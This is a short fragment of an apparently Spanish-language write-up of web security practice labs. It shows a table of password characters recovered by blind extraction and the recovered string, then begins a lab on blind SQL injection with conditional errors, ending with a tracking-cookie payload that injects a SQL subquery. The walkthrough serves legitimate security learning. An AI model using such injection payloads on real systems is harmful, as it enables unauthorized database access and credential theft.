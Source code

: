 | POS 1  | POS 2  | POS 3  | POS 4  | POS 5  | POS 6  | POS 7  | POS 8  | POS 9  | POS 10 | POS 11 | POS 12 | POS 13 | POS 14 | POS 15 | POS 16 | POS 17 | POS 18 | POS 19 | POS 20 |
| ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ |
| p | 7| e|  l| b| f | h | t | t | 2| 0| 6| 1| 6| 6| h| u| n| j| w|

p7elbfhtt206166hunjw

![alt text](image-28.png)

---
## 10.[LAB 10 Blind SQL injection with conditional errors](https://www.youtube.com/watch?v=HjXUtCKm1FM)

* ### "Proxy" y luego "Repeater" 

* Cookie: TrackingId=Cqduog6aHApTYY1C' ||(SELECT '')||';
